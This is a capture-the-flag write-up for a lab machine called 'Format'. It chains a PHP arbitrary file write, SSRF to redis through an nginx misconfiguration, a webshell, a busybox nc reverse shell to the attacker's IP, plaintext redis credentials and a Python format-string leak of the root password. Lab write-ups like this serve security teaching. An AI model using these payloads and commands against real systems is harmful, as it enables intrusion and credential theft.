






## Enumeration
Initial nmap:
```
Nmap scan report for 10.10.11.213
Host is up (0.048s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c3:97:ce:83:7d:25:5d:5d:ed:b5:45:cd:f2:0b:05:4f (RSA)
|   256 b3:aa:30:35:2b:99:7d:20:fe:b6:75:88:40:a5:17:c1 (ECDSA)
|_  256 fa:b3:7d:6e:1a:bc:d1:4b:68:ed:d6:e8:97:67:27:d7 (ED25519)
80/tcp   open  http    nginx 1.18.0
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0
3000/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://microblog.htb:3000/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.19 seconds
```
There is an interesting web port 3000, and it redirects to `microblog.htb`. I will add this to my /etc/hosts file:
```
┌──(kali㉿kali)-[~/Documents/Format]
└─$ tail /etc/hosts    
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.11.213 microblog.htb
```
Visiting the page is a git server:

### Web server source code found on port 3000

Exploring for public repositories, we find a microblog repo by cooper:


I don't find any cleartext credentials, but I do find another subdomain on the index.html file:
```html
<!DOCTYPE html>
<html>
<head>
<meta http-equiv="Refresh" content="0; url='http://app.microblog.htb'" />
</head>
<body>
</body>
</html>
```

When trying to visit the main site on port 80, we are also redirected again to `app.microblog.htb`, so this should be added to /etc/hosts as well.

### Enumerating the main web server

The main page is a blogging website. There are options to log in or register:


Registering with the classic asdf credentials:


With an account, we can create blog subdomains:


The source code in the repository found at port 3000 is utilized by this website. We can explore the code, and potentially find vulnerabilities in how the program behaves.

### Discovering file write vulnerability in source code
Under the edit page, the command to add text will write our contents to an `id` field:
```php
//add text
if (isset($_POST['txt']) && isset($_POST['id'])) {
    chdir(getcwd() . "/../content");
    $txt_nl = nl2br($_POST['txt']);
    $html = "<div class = \"blog-text\">{$txt_nl}</div>";
    $post_file = fopen("{$_POST['id']}", "w");
    fwrite($post_file, $html);
    fclose($post_file);
    $order_file = fopen("order.txt", "a");
    fwrite($order_file, $_POST['id'] . "\n");  
    fclose($order_file);
    header("Location: /edit?message=Section added!&status=success");
```
`id` will determine the path, and since this is not path protected, we can choose any place we like. This is Arbitrary File Write, an extremely dangerous oversight. However, this seems largely mitigated by removing write permissions in other folders.

Also under the edit page, we can see that if `isPro` is set, there exists a folder that retains writing privileges:
```php
function provisionProUser() {
    if(isPro() === "true") {
        $blogName = trim(urldecode(getBlogName()));
        system("chmod +w /var/www/microblog/" . $blogName);
        system("chmod +w /var/www/microblog/" . $blogName . "/edit");
        system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");
        system("mkdir /var/www/microblog/" . $blogName . "/uploads && chmod 700 /var/www/microblog/" . $blogName . "/uploads");
        system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
    }
    return;
}
```
After all commands are finished, we are left with an /uploads folder under our blog, with 700 permissions. The creator, in this case the web service account, can read/write/execute files within this location. The exploit chain is now clear. If we can trigger `provisionProUser`, we will be able to write a webshell in the uploads folder using Arbitrary File Write. 
This function is dependent on `isPro()` being set to true. Looking for `isPro`:
```php
function isPro() {
    if(isset($_SESSION['username'])) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $pro = $redis->HGET($_SESSION['username'], "pro");
        return strval($pro);
    }
    return "false";
}
```
The program is utilizing a `redis` sock to store credentials and characteristics of accounts. When we check the register page to see how accounts are created, we can see `pro` is set to false when a user is created:
```php
if (isset($_POST['first-name']) && isset($_POST['last-name']) && isset($_POST['username']) && isset($_POST['password'])) {
    if(!preg_match('/^[a-zA-Z\-]+$/', $_POST['first-name']) || strlen($_POST['first-name']) > 50) {
        print_r("Invalid first name");
<...SNIP...>
    else {
        $redis->HSET(trim($_POST['username']), "username", trim($_POST['username']));
        $redis->HSET(trim($_POST['username']), "password", trim($_POST['password']));
        $redis->HSET(trim($_POST['username']), "first-name", trim($_POST['first-name']));
        $redis->HSET(trim($_POST['username']), "last-name", trim($_POST['last-name']));
        $redis->HSET(trim($_POST['username']), "pro", "false"); //not ready yet, license keys coming soon
        $_SESSION['username'] = trim($_POST['username']);
        header("Location: /dashboard?message=Registration successful!&status=success");
    }
}
```

Looking at the nmap port scan, we don't see an open port that might be related to redis. So we cannot bypass the registration page and communicate with redis directly, or can we? 
## Foothold
### SSRF to redis database via nginx misconfiguration
[This article](https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/) covers how we might abuse poor configuration in nginx's proxy_pass settings, allowing us to send commands directly to the redis socket.

referring to the source code, we see new account information is set with the `HSET` request type, as opposed to the article's MSET. After making the `asdf` account like normal, we can hopefully change the `pro` key to "True" by sending another request. For this, I chose to craft a `curl` request. Note that the redis socket location is replicated from the `isPro` function shown earlier.
```
┌──(kali㉿kali)-[~/Documents/Format]
└─$ curl -X "HSET" http://microblog.htb/static/unix:%2fvar%2frun%2fredis%2fredis.sock:%22asdf%22%20pro%20%22true%22%20/js/jquery.js
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>nginx/1.18.0</center>
</body>
</html>
```
Despite the error, we can see that we have become a pro user with our new star badge:


### Arbitrary File Write to create a webshell
Next, writing a basic php webshell into uploads/rev.php:



Verifying webshell upload:



Since the blog pages are reset frequently, it is best to transition to a reverse shell. A simple payload using `busybox`:
```
http://testa.microblog.htb/uploads/rev.php?cmd=busybox%20nc%2010.10.14.8%208888%20-e%20/bin/bash
```
and on our listener, we now have a reverse connection:
```
┌──(kali㉿kali)-[~/Documents/Format]
└─$ nc -nvlp 8888                       
listening on [any] 8888 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.213] 58190

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## Lateral Movement
### Enumerating redis database
Reviewing the user `cooper`'s home directory, we see a `rediscli_history`. Although unreadable, it is notable that redis is being used by more than just the web server. We can attach to the redis socket ourselves to enumerate:
```
www-data@format:/var/lib/redis$ redis-cli -s /var/run/redis/redis.sock
```
When enumerating redis keys, we see a couple entries for cooper, a user on the system. Note if we reached this place faster, we could also see an entry for our `asdf` user. However, account entries are reset quickly for a cleaner box experience.
```
redis /var/run/redis/redis.sock> KEYS '*'
1) "cooper.dooper:sites"
2) "cooper.dooper"
```
After reviewing [This stack overflow post](https://stackoverflow.com/questions/8078018/get-redis-keys-and-values-at-command-prompt), I find that i can retrieve key contents by matching the type. Finding type:
```
redis /var/run/redis/redis.sock> type "cooper.dooper:sites"
list
redis /var/run/redis/redis.sock> type "cooper.dooper"
hash
```
Hash is more interesting, as it is likely related to passwords. Each type requires a different command to print:
```
redis /var/run/redis/redis.sock> hgetall "cooper.dooper"
 1) "username"
 2) "cooper.dooper"
 3) "password"
 4) "zooperdoopercooper"
 5) "first-name"
 6) "Cooper"
 7) "last-name"
 8) "Dooper"
 9) "pro"
10) "false"
```
The hash is indeed the interesting entry, and more surprisingly the password is not hashed at all! We can try to use this to authenticate as `cooper` using ssh:
```
┌──(kali㉿kali)-[~/Documents/Format]
└─$ ssh cooper@microblog.htb
cooper@microblog.htb's password:
<...SNIP...>
cooper@format:~$
```
## Privilege Escalation
### Abusing Python String format()
Checking sudo privileges:
```
cooper@format:~$ sudo -l
[sudo] password for cooper: 
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license
```
This binary is custom built for this box:
```
cooper@format:~$ /usr/bin/license

Microblog license key manager can only be run as root
```
Upon further inspection, it is not a binary, but instead a python script. This means we can read the contents.
```
cooper@format:~$ file /usr/bin/license 
/usr/bin/license: Python script, ASCII text executable
```
Full code:
```python
#!/usr/bin/python3

import base64
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
from cryptography.fernet import Fernet
import random
import string
from datetime import date
import redis
import argparse
import os
import sys

class License():
    def __init__(self):
        chars = string.ascii_letters + string.digits + string.punctuation
        self.license = ''.join(random.choice(chars) for i in range(40))
        self.created = date.today()

if os.geteuid() != 0:
    print("")
    print("Microblog license key manager can only be run as root")
    print("")
    sys.exit()

parser = argparse.ArgumentParser(description='Microblog license key manager')
group = parser.add_mutually_exclusive_group(required=True)
group.add_argument('-p', '--provision', help='Provision license key for specified user', metavar='username')
group.add_argument('-d', '--deprovision', help='Deprovision license key for specified user', metavar='username')
group.add_argument('-c', '--check', help='Check if specified license key is valid', metavar='license_key')
args = parser.parse_args()

r = redis.Redis(unix_socket_path='/var/run/redis/redis.sock')

secret = [line.strip() for line in open("/root/license/secret")][0]
secret_encoded = secret.encode()
salt = b'microblogsalt123'
kdf = PBKDF2HMAC(algorithm=hashes.SHA256(),length=32,salt=salt,iterations=100000,backend=default_backend())
encryption_key = base64.urlsafe_b64encode(kdf.derive(secret_encoded))

f = Fernet(encryption_key)
l = License()

#provision
if(args.provision):
    user_profile = r.hgetall(args.provision)
    if not user_profile:
        print("")
        print("User does not exist. Please provide valid username.")
        print("")
        sys.exit()
    existing_keys = open("/root/license/keys", "r")
    all_keys = existing_keys.readlines()
    for user_key in all_keys:
        if(user_key.split(":")[0] == args.provision):
            print("")
            print("License key has already been provisioned for this user")
            print("")
            sys.exit()
    prefix = "microblog"
    username = r.hget(args.provision, "username").decode()
    firstlast = r.hget(args.provision, "first-name").decode() + r.hget(args.provision, "last-name").decode()
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
    print("")
    print("Plaintext license key:")
    print("------------------------------------------------------")
    print(license_key)
    print("")
    license_key_encoded = license_key.encode()
    license_key_encrypted = f.encrypt(license_key_encoded)
    print("Encrypted license key (distribute to customer):")
    print("------------------------------------------------------")
    print(license_key_encrypted.decode())
    print("")
    with open("/root/license/keys", "a") as license_keys_file:
        license_keys_file.write(args.provision + ":" + license_key_encrypted.decode() + "\n")

#deprovision
if(args.deprovision):
    print("")
    print("License key deprovisioning coming soon")
    print("")
    sys.exit()

#check
if(args.check):
    print("")
    try:
        license_key_decrypted = f.decrypt(args.check.encode())
        print("License key valid! Decrypted value:")
        print("------------------------------------------------------")
        print(license_key_decrypted.decode())
    except:
        print("License key invalid")
    print("")
```
The "misconfiguration" is far from obvious, and it is easy to overlook. However, this is where the namesake of the box "Format" comes into play: the vulnerability lies in how python handles content with the format function from the strings package. You can read more about the vulnerability [here](https://podalirius.net/en/articles/python-format-string-vulnerabilities/). Within our code, there is a format function for the license_key:
```python
license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```
Since username is something that we can influence, we will make a username with our payload:
```
{license.__init__.__globals__}
```
According to the article, this should display a list of all global variables for the python process when license_key is printed. Going through the registration page does not allow for odd characters, but now we can just access the database directly with `redis-cli`:
```
redis /var/run/redis/redis.sock> HSET asdf username {license.__init__.__globals__} password asdf first-name asdf last-name asdf pro true
(integer) 0
```
We can verify the change with another `hgetall`:
```
redis /var/run/redis/redis.sock> hgetall asdf
 1) "username"
 2) "{license.__init__.__globals__}"
 3) "password"
 4) "asdf"
 5) "first-name"
 6) "asdf"
 7) "last-name"
 8) "asdf"
 9) "pro"
10) "true"
```
Now when we execute the license generation for user `asdf`, the format exploit triggers and all global variables are printed:
```
cooper@format:~$ sudo /usr/bin/license  -p asdf

Plaintext license key:
------------------------------------------------------
microblog{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7fa2f40bfc10>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/usr/bin/license', '__cached__': None, 'base64': <module 'base64' from '/usr/lib/python3.9/base64.py'>, 'default_backend': <function default_backend at 0x7fa2f3f12430>, 'hashes': <module 'cryptography.hazmat.primitives.hashes' from '/usr/local/lib/python3.9/dist-packages/cryptography/hazmat/primitives/hashes.py'>, 'PBKDF2HMAC': <class 'cryptography.hazmat.primitives.kdf.pbkdf2.PBKDF2HMAC'>, 'Fernet': <class 'cryptography.fernet.Fernet'>, 'random': <module 'random' from '/usr/lib/python3.9/random.py'>, 'string': <module 'string' from '/usr/lib/python3.9/string.py'>, 'date': <class 'datetime.date'>, 'redis': <module 'redis' from '/usr/local/lib/python3.9/dist-packages/redis/__init__.py'>, 'argparse': <module 'argparse' from '/usr/lib/python3.9/argparse.py'>, 'os': <module 'os' from '/usr/lib/python3.9/os.py'>, 'sys': <module 'sys' (built-in)>, 'License': <class '__main__.License'>, 'parser': ArgumentParser(prog='license', usage=None, description='Microblog license key manager', formatter_class=<class 'argparse.HelpFormatter'>, conflict_handler='error', add_help=True), 'group': <argparse._MutuallyExclusiveGroup object at 0x7fa2f2ab87c0>, 'args': Namespace(provision='asdf', deprovision=None, check=None), 'r': Redis<ConnectionPool<UnixDomainSocketConnection<path=/var/run/redis/redis.sock,db=0>>>, '__warningregistry__': {'version': 0}, 'secret': 'unCR4ckaBL3Pa$$w0rd', 'secret_encoded': b'unCR4ckaBL3Pa$$w0rd', 'salt': b'microblogsalt123', 'kdf': 
<...SNIP...>
```
Here we can see the secret variable: `unCR4ckaBL3Pa$$w0rd`. This turns out to be the password for root!
```
cooper@format:~$ su
Password: 
root@format:/home/cooper# 
```
## Reflection
The initial vulnerability utilized to set our user account to "Pro" was something I have never seen before, and very interesting to discover! I liked how the box had a central focus on the redis applications, even to the point where we need to use it three times, each with a different goal and technique. The privilege escalation to root, however, I found to be rather frustratingly inconspicuous. It felt that if someone was unaware of particular python interactions, then there was very little chance to figure it out without external guidance. Moreover, having the secret key also being the root password is weird, a little too much like a CTF challenge.
